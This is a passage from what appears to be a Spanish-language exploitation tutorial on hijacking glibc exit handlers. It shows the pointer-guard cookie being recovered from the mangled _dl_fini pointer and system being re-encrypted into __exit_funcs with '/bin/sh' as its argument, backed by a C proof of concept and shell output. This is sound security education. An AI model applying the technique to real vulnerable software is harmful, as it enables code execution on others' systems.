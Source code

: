 Lo que hemos visto hasta este punto es realmente interesante. Como preámbulo puedo decir que una técnica común usada en el desarrollo de un exploit es obtener una fuga de memoria con alguna dirección virtual perteneciente de la `glibc` y/o de `ld`, permitiendo calcular la dirección virtual de la función de `__exit_funcs` y `_dl_fini`, aunque esta última pertence a `ld`. Entonces, obteniendo el puntero cifrado y decifrado podremos obtener la _cookie_. 

```python
In [9]: hex(ror64(0x5b75ba599d12cfac, 0x11) ^ 0x7ffff7fc9040)
Out[9]: '0x67d652452ad05ec9'
```

Obtener la _cookie_ nos permite poder cifrar cualquier puntero como el de la función `system`, y con una primitiva de escritura sobreescribir el puntero modificado, a su vez que en `exit_function_list.fns[0].cxa.arg` se escriba `/bin/sh` para poder obtener una shell.

```c
    printf("ld = %p\n", ld_addr);
    printf("libc = %p\n", libc_addr);

    struct exit_function_list* exit_funcs_list = (struct exit_function_list*)(libc_addr + 0x21bf00);
    printf("__exit_funcs = %p\n", exit_funcs_list);

    uint64_t _dl_fini_addr = (uint64_t)(ld_addr + 0x5b040);

    //uint64_t cookie = (*(uint64_t*)(ld_addr + 0x8f040)) - 0x53b70;
    uint64_t cookie = (uint64_t)(ld_addr + 0x3c740 + 0x30);

    cookie = *(uint64_t*)cookie;
    printf("cookie = 0x%lx\n", cookie);

    uint64_t fn = (uint64_t)exit_funcs_list->fns[0].func.cxa.fn;
    printf("_dl_fini encrypted = 0x%lx\n", fn);
    printf("_dl_fini decrypted = 0x%lx\n", _dl_fini_addr);

    uint64_t cookie2 = decrypt(fn, _dl_fini_addr);
    printf("cookie2 = 0x%lx\n", cookie2);

    assert(cookie == cookie2);

    uint64_t ptr_enc = encrypt((uint64_t)system, cookie2);
    printf("ptr_enc 0x%lx\n", ptr_enc);
    printf("system %p\n", system);

    exit_funcs_list->fns[0].func.cxa.fn = (void*)ptr_enc;
    exit_funcs_list->fns[0].func.cxa.arg = "/bin/sh";

    // trigger system("/bin/sh");
    return 0;
```

```
$ ./a.out 
Mama am here!
ld = 0x723f9c2b5000
libc = 0x723f9c000000
__exit_funcs = 0x723f9c21bf00
ptr cookie 0x723f9c2f1770
cookie = 0x9702d9c5fe9e5e08
_dl_fini encrypted = 0x57f4c55ebc912e05
_dl_fini decrypted = 0x723f9c310040
cookie2 = 0x9702d9c5fe9e5e08
ptr_enc 0x57f4c536a6f12e05
system 0x723f9c050d70
$ echo 'pwn'
pwn
```

[1]: https://googleprojectzero.blogspot.com/2014/08/the-poisoned-nul-byte-2014-edition.html
[2]: https://binholic.blogspot.com/2017/05/notes-on-abusing-exit-handlers.html
[3]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.c#L135
[4]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.c#L35
[5]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/exit.h
[6]: https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/unix/sysv/linux/x86_64/pointer_guard.h#L25
[7]: https://elixir.bootlin.com/glibc/glibc-2.39/source/stdlib/cxa_atexit.c#L52
[8]: https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/unix/sysv/linux/x86_64/pointer_guard.h#L29
[9]: https://elixir.bootlin.com/glibc/glibc-2.26/source/sysdeps/x86_64/nptl/tls.h#L70
[10]: https://elixir.bootlin.com/glibc/glibc-2.39/source/nptl/pthread_create.c#L63
[11]: https://elixir.bootlin.com/glibc/glibc-2.39/source/sysdeps/generic/ldsodefs.h#L303